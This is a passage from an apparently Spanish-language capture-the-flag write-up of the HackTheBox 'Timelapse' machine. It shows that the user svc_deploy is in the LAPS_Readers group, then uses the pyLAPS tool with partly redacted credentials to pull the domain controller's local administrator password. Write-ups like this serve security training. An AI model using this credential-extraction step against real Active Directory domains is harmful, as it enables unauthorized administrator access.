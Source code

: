 ~~~powershell
User Name            SID
==================== ============================================
timelapse\svc_deploy S-1-5-21-671920749-559770252-3318990721-3103


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
TIMELAPSE\LAPS_Readers                      Group            S-1-5-21-671920749-559770252-3318990721-2601 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group
<SNIP>
~~~
Se puede ver que este usuario pertenece al grupo "TIMELAPSE\LAPS_Readers" que parece estar relacionado con los archivos de recursos compartidos encontrados en los archivos del recurso compartido.
LPAS es un grupo interesante porque es el "local administration password solution", en teoría con este grupo se puede ver y sacar backups de la cuenta de administrador local, para ello existe un repositorio en github que aprovecha esta vulnerabilidad (https://github.com/p0dalirius/pyLAPS)
~~~bash
python3 pyLAPS.py --action get -u 'svc_deploy' -d 'timeslapse.htb' -p 'E3<SNIP>aV' --dc-ip 10.10.11.152 
                 __    ___    ____  _____
    ____  __  __/ /   /   |  / __ \/ ___/
   / __ \/ / / / /   / /| | / /_/ /\__ \   
  / /_/ / /_/ / /___/ ___ |/ ____/___/ /   
 / .___/\__, /_____/_/  |_/_/    /____/    v1.2
/_/    /____/           @podalirius_           
    
[+] Extracting LAPS passwords of all computers ... 
  | DC01$                : ++0a<SNIP>0;N)
[+] All done!
~~~
Finalmente se logro obtener credenciales para el administrador local.

---
